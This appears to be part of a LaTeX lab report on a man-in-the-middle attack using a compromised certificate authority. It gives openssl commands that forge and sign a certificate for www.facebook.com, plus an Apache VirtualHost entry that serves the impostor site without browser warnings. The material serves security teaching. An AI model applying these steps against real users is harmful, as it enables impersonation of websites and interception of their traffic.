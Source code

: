 \section{Task 6 --- Launching a Man-In-The-Middle Attack with
a Compromised CA}
%
\begin{lstlisting}[caption=A command generating a Certificate Signing
    Request for the fake Facebook website, label={lst:csr_script_fake_facebook}]
    openssl req -newkey rsa:2048 -sha256 \
    -keyout facebook.key -out facebook.csr \
    -subj "/CN=www.facebook.com/O=Meta Inc./C=US" \
    -passout pass:dees
\end{lstlisting}

\begin{lstlisting}[caption=A command generating a Certificate for the
    fake Facebook website, label={lst:crt_script_fake_facebook}]
    openssl ca -config demoCA_openssl.cnf \
    -policy policy_anything -md sha256 -days 365 \
    -in facebook.csr -out facebook.crt -batch \
    -cert ca.crt -keyfile ca.key
\end{lstlisting}

\begin{lstlisting}[caption={\fontfamily{qcr}\selectfont VirtualHost} entry for
    fake {\fontfamily{qcr}\selectfont www.facebook.com},
    label={lst:virtual_host_entry}]
    <VirtualHost *:443>
        DocumentRoot /var/www/bank32
        ServerName www.facebook.com
        DirectoryIndex index.html
        SSLEngine On
        SSLCertificateFile /volumes/facebook.crt
        SSLCertificateKeyFile /volumes/facebook.key
    </VirtualHost>
\end{lstlisting}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/fake_facebook.png}
    \caption{Fake {\selectfont www.facebook.com}
    can be accessed without any errors or warnings}
    \label{fig:fake_facebook}
\end{figure}

